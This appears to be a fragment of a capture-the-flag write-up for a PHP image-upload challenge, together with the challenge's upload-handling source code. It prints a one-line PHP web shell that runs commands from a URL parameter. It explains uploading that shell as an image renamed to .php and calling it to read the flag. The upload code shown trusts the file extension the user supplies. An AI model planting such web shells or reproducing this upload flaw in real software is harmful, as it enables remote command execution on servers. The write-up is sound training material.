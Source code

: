 ```<?php exec($_GET["cmd"],$output); print_r($output); ?>```

Don’t forget to rename the image to a “.php”. Once uploaded, visit the page with the appropriate parameter “?cmd=cat%20/tmp/flag.txt” and read the flag!

flag{WhoeverPutThe"B"In"Subtle"WasClever}

###Code
```php
<?php
$stoage_name = hash('sha256', random_bytes(256));
$currentDir = getcwd();
$uploadDirectory = "/uploads/";

$errors = []; // Store all foreseen and unforseen errors here

$fileName = $_FILES['userfile']['name'];
$fileSize = $_FILES['userfile']['size'];
$fileTmpName  = $_FILES['userfile']['tmp_name'];
$fileType = $_FILES['userfile']['type'];
$fileExtension = strtolower(end(explode('.',$fileName)));

$uploadPath = $currentDir . $uploadDirectory . $stoage_name . "." . $fileExtension;
$link = $uploadDirectory . $stoage_name . "." . $fileExtension;

$allowedTypes = array(IMAGETYPE_PNG, IMAGETYPE_JPEG, IMAGETYPE_GIF, IMAGETYPE_JPEG2000 );
$detectedType = exif_imagetype($_FILES['userfile']['tmp_name']);
$error = !in_array($detectedType, $allowedTypes);

$exif = exif_read_data($_FILES['userfile']['tmp_name'], 'EXIF, IFD0');


if (isset($_POST['submit'])) {

    if ($fileSize > 2000000) {
        $errors[] = "This file is more than 2MB. Sorry, it has to be less than or equal to 2MB ". "</br>";
    }

    if (!in_array($detectedType, $allowedTypes)){
        $errors[] = "Sneaky sneaky! I said only images! ". "</br>";
    }

    if (empty($errors)) {
        $didUpload = move_uploaded_file($fileTmpName, $uploadPath);

        if ($didUpload) {
            if ($exif){
                echo '<table>';
                foreach ($exif as $key=>$value) {
                    echo '<tr>' . '<th>';
                    echo $key;
                    echo '</th>' .'<th>';
                    echo $value;
                    echo '</th>'. '</tr>';
                }
                echo '</table>';

            }else{
                echo 'No metadata was found! ';
            }
            echo "You can download the original image <a href='$link'>here </a>";
        } else {
            echo "An error occurred somewhere. Try again or contact the admin ". "</br>";
```